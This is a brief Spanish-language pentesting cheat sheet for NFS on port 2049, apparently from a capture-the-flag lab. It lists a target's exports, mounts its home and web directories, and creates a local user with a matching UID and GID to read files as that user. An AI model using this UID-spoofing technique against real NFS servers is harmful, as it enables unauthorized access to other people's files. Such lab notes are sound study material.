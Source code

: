 # NFS - 2049

## Listar monturas

```
showmount -e 10.10.11.191
```

## Creación de monturas

```
mkdir /mnt/ross
mkdir /mnt/web_server
mount -t nfs 10.10.11.191:/home/ross /mnt/ross
mount -t nfs 10.10.11.191:/var/www/html /mnt/web_server
```

## Creación de usuarios para obtener más privilegios en función del archivo

```
useradd ross -u 2017
groupmod -g 2017 ross
su ross
bash
```